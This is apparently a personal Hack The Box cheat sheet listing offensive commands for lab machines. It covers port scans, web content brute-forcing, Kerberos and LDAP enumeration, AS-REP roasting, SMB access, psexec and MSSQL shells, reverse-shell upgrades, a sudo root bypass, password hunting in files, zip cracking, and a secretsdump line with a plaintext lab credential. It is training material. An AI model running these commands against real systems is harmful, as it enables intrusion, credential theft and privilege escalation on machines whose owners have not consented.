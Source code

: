 ### HTB NOTES
Some useful notes made while playing HTB
### Initial recon 
```
rustscan 10.10.10.191 -- -p- -sV -A -Pn
nmap -p- -sV -A -Pn 10.10.10.191
```

### http/https_open?:
	gobuster
	content discovery via burp
	wfuzz -c -w /root/xPayloads/SecLists/Discovery/Web-Content/common.txt --hc 404,403 -u "http://example.com/FUZZ.txt" -t 100
	python3 ./dirsearch.py -u http://10.10.10.175 -e *
	cewl -w wordlists.txt -d 10 -m 1 http://blunder.htb/

### shell uploaded but no path?
	python3 dirsearch.py -u http://10.10.10.28 -e php

### Need users?:
	grab from: 
		-site "About Us"
		-random files on smb or http server
		-ldap
	create user list:
		-John Doe
			-jdoe
			-johndoe
			-john.doe
###  nfs?:
	sudo showmount -e 10.10.10.10.
	mount -t nfs 10.10.10.100:/site_backups /root/HTB/remote/site_backup
	
### dns-open?:
	-dnsrecon -d 10.10.10.100 -r 10.0.0.0/8 #this will return hostname of box

### kerberos_open?:
	try to bruteforce users, create list from site or try to withdraw from ldap
	kerbrute userenum -d EGOTISTICALBANK users.txt --dc 10.10.10.175
	GetNPUsers.py BLACKFIELD.LOCAL/support -dc-ip 10.10.10.192 -no-pass

### ldap_open?:
	nslookup; server 10.10.10.100 ; 127.0.0.1; 10.10.10.100
	ldapsearch -x -h 10.10.10.175 -p 389 -s base namingcontexts
	ldapsearch -x -h 10.10.10.175 -p 389 -b "DC=EGOTISTICAL-BANK,DC=LOCAL"
		-or nmap -p 389 --script ldap-search

### smb_open?:
	locate -r '\.nse$' | xargs grep categories | grep 'default\|version\|safe' | grep smb
	nmap --script safe -p 445 10.10.10.100
	nmap --script smb-enum-services -p 445 10.10.10.100
	smbclient -N -L //10.10.10.100
	smbclient -N  //10.10.10.100/backups
	smbmap -H 10.10.10.100
		-smbap -R replication -H 10.10.10.10. -A Groups.xml -q
	
	rpcclient -U support //10.10.10.192
		-rpcclient $> setuserinfo2 support 23 'Password!'


### msql_open?:
	-python3 ~/tools/impacket/examples/mssqlclient.py ARCHETYPE/sql_svc@10.10.10.27 -windows-auth


### got_win_admin?:
	-python ~/tools/impacket/examples/psexec.py administrator@10.10.10.27 #Admin shell 


### linux shell todo:
Got Reverse shell?
```
python -c 'import pty; pty.spawn("/bin/sh")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```
or
```
SHELL=/bin/bash script -q /dev/null
Ctrl-Z
stty raw -echo
fg
reset
xterm
```

or

## Escalation Linux

### Sudo wierdos
```
id 
uid=1000(ash) gid=1000(ash) groups=1000(ash),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)
sudo -l sudo: unable to open /run/sudo/ts/ash: Read-only file system [sudo] password for ash: Sorry, user ash may not run sudo on tabby.
[https://www.hackingarticles.in/lxd-privilege-escalation/](https://www.hackingarticles.in/lxd-privilege-escalation/)  
```
[https://book.hacktricks.xyz/linux-unix/privilege-escalation/lxd-privilege-escalation](https://book.hacktricks.xyz/linux-unix/privilege-escalation/lxd-privilege-escalation)


```
sudo -l
root    ALL=(ALL:ALL) ALL
sudo -u#-1 /bin/bash
```
### Look for suid:
```
find / -perm -g=s -o -perm -4000 ! -type l -maxdepth 3 -exec ls -ld {} \; 2>/dev/null
```
### Automated recon:
```
LinEnum.sh
linuxprivchecker.py

```
### Enumerate internal services:
```
nmap -p- 127.0.0.1
cat /proc/330/cmdline #sometimes there is password in command :P
```

### Search password in filses:
```
find / -name "*backup*" 2>/dev/null
find / -name "*users*" 2>/dev/null
Check config files db connections:
find / -name "db.php" 2>/dev/null 
go to webapp dir
```




zip-cracking:
```
fcrackzip -D -p rockyou test.zip
```
### Windows:
```
Check groups:
	-Local Group Memberships      *AD Recycle Bin 
		-Get-ADObject -filter 'isDeleted -eq $true' -includeDeletedObjects -Properties *
Check ACLS:
	-invoke-aclscaner:
		-ObjectAceType           : 1131f6aa-9c07-11d1-f79f-00c04fc2dcd2 <-dnssync
			-secretsdump.py -dc-ip 10.10.10.175 'EGOSTATICAL-BANK.LOCAL/svc_loanmgr:Moneymakestheworldgoround!@10.10.10.175'

Privileges:
	-SeBackupPrivilege             Back up files and directories  Enabled
	 SeRestorePrivilege            Restore files and directories  Enabled
		-shadowcopy
	-SeImpersonate
		-PrintSpoofer.exe

```
